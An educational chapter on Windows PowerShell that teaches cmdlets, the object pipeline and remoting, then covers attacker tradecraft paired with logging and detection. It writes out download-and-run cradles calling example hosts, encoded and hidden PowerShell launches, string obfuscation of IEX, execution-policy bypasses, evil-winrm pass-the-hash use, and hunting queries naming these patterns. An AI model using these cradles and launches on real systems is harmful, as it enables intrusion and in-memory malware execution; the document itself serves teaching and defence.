







**Level:** Beginner · **Track:** Foundations · **Read time:** 140 min

This is Chapter 4 of the Windows Internals series. The previous chapters built up how Windows *works* — processes and the registry, the file-system security model, and how authentication mints your token. This chapter hands you the tool you'll use to *drive* all of it: **PowerShell**. It is the automation language of Windows, the first thing a defender reaches for to investigate a box, and — because it's signed, trusted, and everywhere — the first thing an attacker reaches for to live off the land.

We start from absolute zero: what a shell is, what a *cmdlet* is, and the one idea that makes PowerShell unlike Bash or CMD — **it passes objects, not text.** From there we climb to the level a security engineer needs: the pipeline internals, remoting, credential handling, the offensive toolkit (encoded commands, download cradles, LOLBAS), and the defensive telemetry (script-block logging, AMSI, Constrained Language Mode) that decides whether any of it gets caught. Nothing assumes you've written a line of PowerShell before.

---

## Who This Chapter Is For (and the Map Ahead)

If you've only ever used `cmd.exe` or a Linux terminal, PowerShell will feel familiar for about thirty seconds and then completely alien — in a good way. The moment you realize `Get-Process` hands you *live process objects* rather than a wall of text you have to `grep`, the whole design clicks. This chapter is built to get you to that click as fast as possible, then keep going until you can read and write the PowerShell you'll meet in real detections and real intrusions.



A note on ethics and scope. PowerShell is dual-use by nature. The offensive sections — encoded commands, download cradles, AMSI context — are here because you cannot defend against, or hunt for, what you don't understand, and because red teamers need them for **authorized** work. Everything is lab-scoped and lawful-use only. We pair every offensive technique with the exact log event and detection that catches it, because in the real world PowerShell is one of the most heavily *instrumented* things on Windows.

---

## Part 1: What a Shell Is, and Why PowerShell Exists

A **shell** is a program that reads commands you type and gets the operating system to carry them out. On Linux you've met `bash`; on classic Windows there was `cmd.exe`. These are *text* shells: a command prints text, and if you want to use that output you slice the text apart with tools like `grep`, `cut`, and `awk`. It works, but it's fragile — the moment output formatting changes, your parsing breaks.

PowerShell was created (shipping first in 2006, and reborn as cross-platform **PowerShell 7** on .NET) to fix that fragility. Its core insight: instead of passing *text* between commands, pass **structured objects** — real .NET objects with named properties and methods. When `Get-Process` gives you a process, you don't get a line of text you have to parse; you get an object with `.Id`, `.Name`, `.CPU`, `.Path`, and a `.Kill()` method you can call. Nothing to parse, nothing to break.

Two editions you will encounter, and must not confuse:

| | Windows PowerShell 5.1 | PowerShell 7.x (Core) |
|---|---|---|
| Executable | `powershell.exe` | `pwsh.exe` |
| Runtime | .NET Framework | .NET (Core), cross-platform |
| Ships with | Every Windows since 8.1/2012R2 | Manual install |
| Security telemetry | Full (AMSI, SBL, transcription) | Full, plus improvements |
| Attacker default | **Yes** — always present | Sometimes |

The security-critical takeaway: **`powershell.exe` (5.1) is on every Windows machine**, which is exactly why attackers target it — it's a signed, Microsoft-trusted binary they never have to bring with them. When we discuss detection, 5.1 is the battleground.

> **Memory hook** — Bash pipes *text*; PowerShell pipes *objects*. Almost every "wow" moment and every gotcha in this chapter traces back to that one difference.

---

## Part 2: Cmdlets — the Verb-Noun Building Blocks

The basic unit of PowerShell is the **cmdlet** (pronounced "command-let"): a small, single-purpose command with a strict **`Verb-Noun`** name. This naming is not cosmetic — it makes the entire command surface *guessable*.

```powershell
Get-Process          # retrieve running processes
Stop-Service Spooler # stop the print spooler service
Get-ChildItem C:\    # list a directory (like `ls` / `dir`)
Set-Location C:\Windows  # change directory (like `cd`)
New-Item file.txt    # create a file
```

The verbs come from an approved list (`Get`, `Set`, `New`, `Remove`, `Start`, `Stop`, `Invoke`, `Export`, …). See them all with `Get-Verb`. Because verbs are standardized, once you know `Get-Service` exists you can guess `Stop-Service`, `Start-Service`, `Restart-Service`, and `Set-Service` — and they'll all be there.

To make the transition easier, PowerShell ships **aliases** that map old commands to cmdlets:

| You type | Real cmdlet | Familiar from |
|----------|-------------|---------------|
| `ls`, `dir`, `gci` | `Get-ChildItem` | bash / cmd |
| `cd`, `sl` | `Set-Location` | bash / cmd |
| `cat`, `gc`, `type` | `Get-Content` | bash / cmd |
| `cp`, `copy` | `Copy-Item` | bash / cmd |
| `rm`, `del` | `Remove-Item` | bash / cmd |
| `%` | `ForEach-Object` | — |
| `?` | `Where-Object` | — |
| `iwr`, `curl`, `wget` | `Invoke-WebRequest` | — |
| `iex` | `Invoke-Expression` | — |

Note that last group. `iwr`/`iex` are innocuous-looking aliases that show up constantly in malicious one-liners — `iex (iwr http://evil/x)` is the canonical "download and run" cradle. Recognizing aliases is a defensive skill: attackers use them to make payloads shorter and less obvious.

### The three commands that make PowerShell self-teaching

You never need to memorize PowerShell — you need to memorize three cmdlets that let you *discover* everything else:

```powershell
Get-Command *service*        # find every cmdlet with "service" in its name
Get-Help Stop-Service -Full  # full docs, parameters, and examples for a cmdlet
Get-Member                   # (via pipeline) list an object's properties & methods
```

`Get-Help Stop-Service -Examples` alone will teach you most cmdlets faster than any tutorial. Run `Update-Help` once to pull the latest docs.

> **Memory hook** — `Get-Command` to *find* it, `Get-Help` to *learn* it, `Get-Member` to *inspect what it returns*. Those three are your survival kit.

---

## Part 3: The Object Pipeline — the Heart of PowerShell

This is the single most important section in the chapter. The pipe `|` in PowerShell looks like the Bash pipe but does something profoundly different: it passes a stream of **objects** from one cmdlet to the next, and each cmdlet operates on the objects' *properties*, not on text.

Compare. In Bash, to list processes sorted by memory you parse columns:

```bash
ps aux | sort -rk4 | head -5    # fragile: depends on column positions
```

In PowerShell you work with real properties:

```powershell
Get-Process | Sort-Object CPU -Descending | Select-Object -First 5 Name, CPU, Id
```

Nothing is parsed. `Sort-Object CPU` sorts on the numeric `CPU` property; `Select-Object` picks named properties. If Microsoft changes how processes are displayed tomorrow, this still works, because it never depended on display text.



### Get-Member: X-ray vision for objects

The way you *discover* what properties an object has is `Get-Member`:

```powershell
Get-Process | Get-Member
```
Realistic (trimmed) output:
```
   TypeName: System.Diagnostics.Process

Name          MemberType   Definition
----          ----------   ----------
Kill          Method       void Kill()
Id            Property     int Id {get;}
Name          Property     string ProcessName {get;}
Path          Property     string Path {get;}
CPU           ScriptProperty System.Object CPU {get=...}
```

That `TypeName: System.Diagnostics.Process` tells you PowerShell is handing you the *exact same object type* a C# programmer would use. The `Kill()` method means you can do:

```powershell
Get-Process notepad | Stop-Process          # the cmdlet way
(Get-Process notepad).Kill()                # calling the object's method directly
```

### The four workhorse cmdlets

Ninety percent of interactive PowerShell is these four:

```powershell
Get-Service | Where-Object {$_.Status -eq 'Running'}      # filter
Get-Service | Sort-Object DisplayName                     # sort
Get-Service | Select-Object Name, Status                  # project columns
Get-Service | ForEach-Object { $_.Name.ToUpper() }        # act on each item
```

`$_` (or `$PSItem`) is "the current object in the pipeline." In the filter above, `$_.Status` reads the `Status` property of each service as it flows through. This `$_` is everywhere; get comfortable with it now.

### Objects in, objects out — even to files

Because everything is an object, exporting is lossless and structured:

```powershell
Get-Process | Where-Object {$_.CPU -gt 10} |
    Select-Object Name, Id, CPU |
    Export-Csv -Path high_cpu.csv -NoTypeInformation
Get-Process | ConvertTo-Json | Out-File procs.json
```

> **CTF Angle** — In Windows CTF/AD boxes, the object pipeline is how you triage fast: `Get-ChildItem -Recurse -Force -Include *.txt,*.kdbx,*.config | Select FullName` to hunt loot, `Get-LocalUser | Where Enabled`, or `Get-ChildItem env:` to read environment secrets. Knowing you can pipe into `Select-String` (PowerShell's grep) to search file *contents* — `gci -Recurse | Select-String -Pattern 'password'` — is a reliable flag-finder on THM/HTB Windows rooms.

---

## Part 4: Providers, Drives, and the Registry as a File System

Here's a PowerShell idea with big security payoff: **providers** let you browse things that *aren't* the file system using the same `Get-ChildItem` / `Set-Location` commands. The registry, environment variables, certificates, and functions are all exposed as navigable "drives."

```powershell
Get-PSDrive                       # list all drives: C:, HKLM:, HKCU:, Env:, Cert:, ...
Set-Location HKLM:\SOFTWARE       # "cd" into the registry
Get-ChildItem HKLM:\SYSTEM\CurrentControlSet\Services   # list services as registry keys
Get-ItemProperty HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Run   # read autoruns
Get-ChildItem Env:                # every environment variable as a drive
Get-ChildItem Cert:\LocalMachine\My   # installed certificates
```

For security work this is gold. Reading autorun persistence, checking a service's `ImagePath`, or dumping environment variables (which often hold secrets in CI/build agents) all use the same handful of cmdlets you already know:

```powershell
# Enumerate common persistence autoruns
Get-ItemProperty 'HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Run'
Get-ItemProperty 'HKCU:\SOFTWARE\Microsoft\Windows\CurrentVersion\Run'
```



> **Bug Bounty Angle** — On cloud/hybrid targets and CI systems you sometimes get command execution in a Windows build agent. `Get-ChildItem Env:` frequently reveals cloud keys, tokens, and connection strings injected as environment variables — a direct, high-severity secrets-exposure finding. Likewise `Get-Content` on `web.config`/`appsettings.json` via a path-traversal or RCE turns a foothold into credential disclosure. Report the exact variable/file and the secret's blast radius.

---

## Part 5: Variables, Types, Operators, and Quoting

PowerShell variables start with `$`. They hold objects, and PowerShell is loosely typed but *type-aware*.

```powershell
$name = "Ada"                 # string
$count = 42                   # int
$list = 1,2,3                 # array
$hash = @{ user='admin'; port=445 }   # hashtable (key/value)
[int]$n = "17"                # cast: $n is the integer 17
$proc = Get-Process -Id $PID  # a whole object in a variable
$proc.Name                    # access its property
```

### Operators you must know

PowerShell does **not** use `>` `<` `==` for comparison (those mean redirection). It uses word operators:

| Operator | Meaning | Example |
|----------|---------|---------|
| `-eq` `-ne` | equal / not equal | `$x -eq 5` |
| `-gt` `-ge` `-lt` `-le` | greater/less | `$cpu -gt 10` |
| `-like` | wildcard match | `$name -like 'adm*'` |
| `-match` | regex match | `$s -match '\d{3}'` |
| `-contains` / `-in` | membership | `$list -contains 3` |
| `-and` `-or` `-not` (`!`) | boolean logic | `($a -gt 1) -and ($b -lt 9)` |

By default comparisons are **case-insensitive**; prefix with `c` for case-sensitive (`-ceq`, `-cmatch`).

### Quoting — the source of a thousand bugs

Single vs double quotes matters enormously, especially when reading malicious scripts:

```powershell
$user = 'admin'
"Hello $user"    # double quotes → interpolates → Hello admin
'Hello $user'    # single quotes → literal   → Hello $user
"Path: $($proc.Path)"   # $(...) runs an expression inside a string
```

Attackers exploit string handling for obfuscation — building command names character by character, using format operators (`-f`), or `[char]` codes — precisely because PowerShell's flexible string engine makes `"i"+"e"+"x"` evaluate to `iex`. We'll see this in Part 9.

---

## Part 6: Scripting — Logic, Loops, Functions, and Errors

Interactive one-liners are half of PowerShell; the other half is **scripts** (`.ps1` files). The control flow is conventional:

```powershell
# Conditionals
if ($svc.Status -eq 'Running') { "up" } elseif ($svc.Status -eq 'Stopped') { "down" } else { "?" }

# Loops
foreach ($p in Get-Process) { if ($p.CPU -gt 100) { $p.Name } }
1..5 | ForEach-Object { "iteration $_" }
while ($true) { Start-Sleep 60; Check-Something }

# Switch
switch ($code) { 200 {'ok'} 404 {'missing'} default {'other'} }
```

### Functions and parameters

```powershell
function Get-BigProcess {
    param(
        [int]$MinCPU = 10,
        [switch]$IncludePath
    )
    $props = 'Name','Id','CPU'
    if ($IncludePath) { $props += 'Path' }
    Get-Process | Where-Object { $_.CPU -gt $MinCPU } | Select-Object $props
}

Get-BigProcess -MinCPU 50 -IncludePath
```

`param()` declares typed parameters; `[switch]` makes an on/off flag. Advanced functions add `[CmdletBinding()]` and `[Parameter(Mandatory)]` to behave like real cmdlets, including pipeline input.

### Error handling

PowerShell has two error classes: **terminating** (stop execution) and **non-terminating** (log and continue). Control them with `-ErrorAction` and `try/catch`:

```powershell
try {
    Get-Item 'C:\missing' -ErrorAction Stop
} catch {
    Write-Warning "Failed: $($_.Exception.Message)"
} finally {
    "cleanup always runs"
}

$ErrorActionPreference = 'Stop'   # make ALL errors terminating (common in tooling)
```

The automatic variable `$?` holds whether the last command succeeded, and `$Error` is an array of recent errors — both useful in incident response when you're reconstructing what a script did.

---

## Part 7: Execution Policy — What It Is and Is *Not*

Newcomers think **Execution Policy** is a security boundary. It is not, and understanding why is essential.

```powershell
Get-ExecutionPolicy -List          # see policy at each scope
Set-ExecutionPolicy -Scope CurrentUser RemoteSigned
```

Policies (`Restricted`, `AllSigned`, `RemoteSigned`, `Unrestricted`, `Bypass`) govern whether `.ps1` *files* run. But they are trivially sidestepped, which is why they stop honest accidents, not attackers:

```powershell
powershell.exe -ExecutionPolicy Bypass -File evil.ps1   # flag ignores policy
powershell.exe -c "iex (Get-Content evil.ps1 -Raw)"     # never touches a .ps1
Get-Content evil.ps1 | powershell.exe -                 # pipe into stdin
```

Microsoft is explicit: execution policy is a *user convenience*, not a security control. Real control comes from **Constrained Language Mode**, **AppLocker/WDAC**, code signing, and the logging we cover in Part 11. Treat "the attacker bypassed execution policy" as a non-event; the interesting question is always what the code then *did*, which the logs will tell you.

> **Bug Bounty / CTF Angle** — On CTF Windows boxes you'll routinely launch your privesc scripts with `-ExecutionPolicy Bypass`; it's expected, not clever. The real skill is what you run — PowerUp, PrivescCheck, WinPEAS — and reading their object output.

---

## Part 8: Remoting and Credentials

PowerShell **Remoting** runs commands on other machines over **WinRM** (Windows Remote Management, HTTP 5985 / HTTPS 5986), built on the WS-Management protocol. It's how admins manage fleets — and how attackers move laterally.

```powershell
# One-off command on a remote host
Invoke-Command -ComputerName dc01 -ScriptBlock { Get-Service }

# An interactive remote session
Enter-PSSession -ComputerName dc01

# A reusable session object (efficient for many calls)
$s = New-PSSession -ComputerName dc01
Invoke-Command -Session $s -ScriptBlock { hostname }
```

### Credentials done right

Never hardcode passwords. PowerShell has a credential object:

```powershell
$cred = Get-Credential                       # secure interactive prompt
Invoke-Command -ComputerName dc01 -Credential $cred -ScriptBlock { whoami }
```

`Get-Credential` returns a `PSCredential` holding a `SecureString`. But be aware for both offense and defense: a `SecureString` is only obfuscated in memory, and can be recovered by code running as the same user:

```powershell
$cred.GetNetworkCredential().Password         # reveals the plaintext (same-user)
```

This matters for IR: an attacker who dumps a running automation process's memory, or finds a script that stores an "encrypted" credential with `ConvertFrom-SecureString` **without a key**, can often recover the secret, because the default DPAPI protection is per-user.



Note the last step: remoting returns *deserialized* objects — property bags without live methods. That's a common gotcha (`.Kill()` won't work on a process returned from a remote session).

> **Bug Bounty Angle** — Exposed WinRM (5985/5986) on internet-facing Windows hosts is a real finding: combined with weak/leaked credentials it's direct remote command execution. `evil-winrm -i host -u user -p pass` (or `-H <hash>` from Chapter 3) is the standard exploitation path. On scoped internal engagements, an open WinRM plus a Kerberoasted service password is a clean crit.

---

## Part 9: Offensive PowerShell — LOLBAS, Encoded Commands, and Download Cradles

PowerShell is the definitive **"living off the land"** tool: `powershell.exe` is signed by Microsoft, present everywhere, and can download, decode, and execute code entirely in memory without dropping a file to disk. That's why it dominates real intrusion telemetry. Understanding the tradecraft is mandatory for both red and blue.

### Living off the land (LOLBAS)

**LOLBAS** = "Living Off the Land Binaries And Scripts" — trusted, signed Windows binaries abused to run attacker code. PowerShell is the flagship, but it often calls friends: `certutil.exe` (download/decode), `mshta.exe`, `regsvr32.exe`, `rundll32.exe`, `wmic.exe`. The appeal: no malware to plant, and the process tree looks "normal."

### The download cradle

The archetypal in-memory execution — fetch a script from a URL and run it without ever writing a `.ps1`:

```powershell
IEX (New-Object Net.WebClient).DownloadString('http://192.0.2.10/s.ps1')
# short alias form:
iex(iwr http://192.0.2.10/s.ps1 -UseBasicParsing)
```

`Invoke-Expression` (`iex`) executes a string as code; `DownloadString` never touches disk. This one line is responsible for an enormous share of PowerShell abuse. **Blue team:** this is exactly what script-block logging (Part 11) is designed to capture in cleartext.

### Encoded commands

Attackers pass a Base64-encoded (UTF-16LE) command to avoid quoting problems and casual inspection:

```powershell
# Build one (attacker side)
$cmd = "IEX(New-Object Net.WebClient).DownloadString('http://192.0.2.10/s.ps1')"
$b64 = [Convert]::ToBase64String([Text.Encoding]::Unicode.GetBytes($cmd))
powershell.exe -NoProfile -EncodedCommand $b64
```
A real command line looks like:
```
powershell.exe -nop -w hidden -enc SUVYKE5ldy1PYmplY3QgTmV0Lldl...
```
`-nop` (no profile), `-w hidden` (hidden window), `-enc` (encoded) together are a classic malicious signature. **Blue team:** decode any `-enc` blob you see — it's just Base64/UTF-16LE:

```powershell
[Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('SUVYKE5l...'))
```

### Obfuscation

Because PowerShell builds strings so flexibly, attackers fragment and reassemble tokens to defeat naive string matching:

```powershell
& ('i'+'e'+'x') $payload
$e = "$([char]73)$([char]69)$([char]88)"   # "IEX" from char codes
&(gcm ('I*X')) $payload                      # resolve iex by wildcard
```

This is why **string-signature detection alone fails** and why AMSI (Part 10) — which sees the *final, deobfuscated* script at execution — is such an important defensive leap.

```mermaid
flowchart LR
    A[powershell.exe<br/>signed, trusted] --> B[-enc / -nop / -w hidden]
    B --> C[DownloadString cradle]
    C --> D[in-memory payload<br/>no file on disk]
    D --> E[AMSI scans deobfuscated code]
    E -->|clean| F[executes]
    E -->|malicious| G[blocked + logged 1116]
    style D fill:#402
```



> **Red Team note (lawful use only)** — In authorized engagements, in-memory execution reduces disk artifacts but *increases* log artifacts: SBL (4104), AMSI, and process-creation (4688/Sysmon 1) all fire. Mature red teams assume PowerShell is fully logged and either accept the noise or move to other execution methods. There is no "silent" PowerShell on a well-instrumented host.

---

## Part 10: AMSI and Constrained Language Mode

Two defensive mechanisms are important enough to teach on their own, because they shape all modern PowerShell tradecraft.

### AMSI — the Antimalware Scan Interface

**AMSI** is a Windows API that lets applications submit content to the installed antivirus *at the moment of execution*, after any deobfuscation. PowerShell calls AMSI with the actual script text it's about to run, so obfuscation that fooled a static scanner is defeated — Defender sees the real code.



Attackers respond with **AMSI bypasses** — patching `amsi.dll` in memory, forcing an initialization error, or reflection tricks — an ongoing cat-and-mouse. **Blue team:** an AMSI bypass attempt is itself a strong detection signal (SBL will often capture the bypass code), and Defender flags many known bypass strings. AMSI events: **4104** (script block) plus AV detections **1116/1117**.

### Constrained Language Mode (CLM)

**CLM** restricts PowerShell to a safe subset — no arbitrary .NET, no `Add-Type`, no COM — which neuters most offensive tradecraft that relies on calling Win32 APIs from PowerShell. It's enforced automatically when **WDAC/AppLocker** is in enforcement mode.

```powershell
$ExecutionContext.SessionState.LanguageMode   # FullLanguage or ConstrainedLanguage
```

CLM is one of the highest-value, lowest-cost hardening steps for a Windows estate, because it breaks the "PowerShell as a C2 runtime" model without breaking normal admin scripting. Attackers hunt for CLM bypasses (e.g., custom runspaces, older PowerShell v2), which is why you must **also** disable PowerShell v2 (Part 12).

---

## Part 11: Hands-On Lab — Logging, Capturing, and Decoding an Encoded Cradle

This lab runs entirely on a single Windows machine you own. Goal: turn on PowerShell's security logging, execute a (benign) encoded download cradle, then find and decode it in the event log exactly as a defender would.

### Step 1 — Enable the logging (as admin)

The three pillars of PowerShell telemetry, set via registry (GPO does the same):

```powershell
# Script Block Logging — logs the actual code executed (Event ID 4104)
New-Item 'HKLM:\SOFTWARE\Policies\Microsoft\Windows\PowerShell\ScriptBlockLogging' -Force | Out-Null
Set-ItemProperty 'HKLM:\SOFTWARE\Policies\Microsoft\Windows\PowerShell\ScriptBlockLogging' EnableScriptBlockLogging 1

# Module Logging — logs pipeline execution details (Event ID 4103)
New-Item 'HKLM:\SOFTWARE\Policies\Microsoft\Windows\PowerShell\ModuleLogging' -Force | Out-Null
Set-ItemProperty 'HKLM:\SOFTWARE\Policies\Microsoft\Windows\PowerShell\ModuleLogging' EnableModuleLogging 1

# Transcription — full input/output transcript to disk
New-Item 'HKLM:\SOFTWARE\Policies\Microsoft\Windows\PowerShell\Transcription' -Force | Out-Null
Set-ItemProperty 'HKLM:\SOFTWARE\Policies\Microsoft\Windows\PowerShell\Transcription' EnableTranscripting 1
```

### Step 2 — Build and run a benign encoded command

We'll encode something harmless (`Write-Output`) so the mechanics are identical to malware without any risk:

```powershell
$cmd = "Write-Output 'hello from an encoded command'"
$b64 = [Convert]::ToBase64String([Text.Encoding]::Unicode.GetBytes($cmd))
powershell.exe -NoProfile -EncodedCommand $b64
```
Output:
```
hello from an encoded command
```

### Step 3 — Find it in the event log

```powershell
Get-WinEvent -LogName 'Microsoft-Windows-PowerShell/Operational' -MaxEvents 20 |
    Where-Object Id -eq 4104 |
    Select-Object TimeCreated, @{n='Code';e={$_.Message.Split("`n")[0]}}
```
Realistic (trimmed) output:
```
TimeCreated           Code
-----------           ----
8/17/2026 9:14:02 AM  Creating Scriptblock text (1 of 1): Write-Output 'hello from an encoded command'
```

Notice what happened: even though we ran an *encoded* command, **Script Block Logging recorded the decoded, human-readable code** (Event ID **4104**). This is the single most valuable PowerShell detection: obfuscation and Base64 don't hide the code from 4104, because it logs what's actually compiled and run.

### Step 4 — Decode an arbitrary `-enc` blob you find in a command line

When threat-hunting you'll spot `powershell -enc <blob>` in a 4688/Sysmon-1 process event. Decode it:

```powershell
$blob = 'V3JpdGUtT3V0cHV0ICdoZWxsbyBmcm9tIGFuIGVuY29kZWQgY29tbWFuZCc='
[Text.Encoding]::Unicode.GetString([Convert]::FromBase64String($blob))
```

If it decodes to garbage, the attacker used UTF-8 or gzip — try `[Text.Encoding]::UTF8` or pipe through `IO.Compression.GzipStream`. But the *cleartext* is almost always already sitting in a 4104 event, so cross-reference.

### Step 5 — Correlate across all three telemetry sources

A real investigation never relies on one source. Reconstruct the same benign event from process-creation, script block, and transcript, the way a SOC analyst pivots:

```powershell
# 1. The launch (Security 4688 or Sysmon 1) — shows the -enc command line
Get-WinEvent -FilterHashtable @{LogName='Security'; Id=4688} -MaxEvents 100 |
    Where-Object { $_.Message -match 'EncodedCommand|-enc' } |
    Select-Object TimeCreated, @{n='CmdLine';e={($_.Message -split "`n" | Select-String 'Process Command Line')}}

# 2. The decoded code (PowerShell 4104) — what actually ran
Get-WinEvent -LogName 'Microsoft-Windows-PowerShell/Operational' |
    Where-Object Id -eq 4104 | Select-Object -First 1 TimeCreated, Message

# 3. The transcript on disk — full input AND output
Get-ChildItem $env:USERPROFILE\Documents\PowerShell_transcript* -Recurse -EA SilentlyContinue |
    Select-Object -First 1 | Get-Content -Tail 20
```

The lesson: the `-enc` blob in step 1 tells you *something ran hidden*, but step 2 (4104) hands you the **decoded code**, and step 3 gives you the **output** too. An attacker would need to defeat all three — and Script Block Logging in particular is written before execution, so even a script that crashes or gets blocked by AMSI still leaves its code in 4104. This three-way correlation is the core muscle of PowerShell threat hunting.

---

## Part 12: Blue Team — Detection, Hunting, and Hardening

PowerShell is one of the most *observable* things on Windows if you turn the telemetry on. Here's the concrete surface.

### The event IDs that matter

| Event ID | Log | What it tells you |
|----------|-----|-------------------|
| **4104** | PowerShell/Operational | Script Block Logging — the **decoded code** that ran (best single source) |
| **4103** | PowerShell/Operational | Module logging — pipeline/command invocation detail |
| **400/403** | Windows PowerShell | Engine start/stop; **HostVersion 2.0** = downgrade attack |
| **4688** | Security | Process creation — catches `powershell.exe -enc -nop -w hidden` |
| **1** (Sysmon) | Sysmon | Process creation with full command line + parent |
| **1116/1117** | Windows Defender | AMSI/AV detection and remediation |

### High-value hunting queries

Turn the theory into detections. Example Splunk/KQL-style logic:

```
# Encoded + hidden PowerShell (classic malicious launch)
EventCode=4688 process=*powershell* CommandLine IN (*-enc*,*-EncodedCommand*)
    AND CommandLine IN (*-w hidden*, *-nop*, *-noni*)

# Download cradle in decoded script blocks
EventCode=4104 ScriptBlockText IN (*DownloadString*, *IEX*, *Invoke-Expression*,
    *Net.WebClient*, *-enc*, *FromBase64String*)

# PowerShell v2 downgrade (CLM/AMSI bypass tell)
EventCode=400 EngineVersion=2.0

# PowerShell spawned by Office (macro → PS, textbook initial access)
Sysmon EventCode=1 ParentImage IN (*winword.exe,*excel.exe,*outlook.exe) Image=*powershell*
```

### Hardening checklist



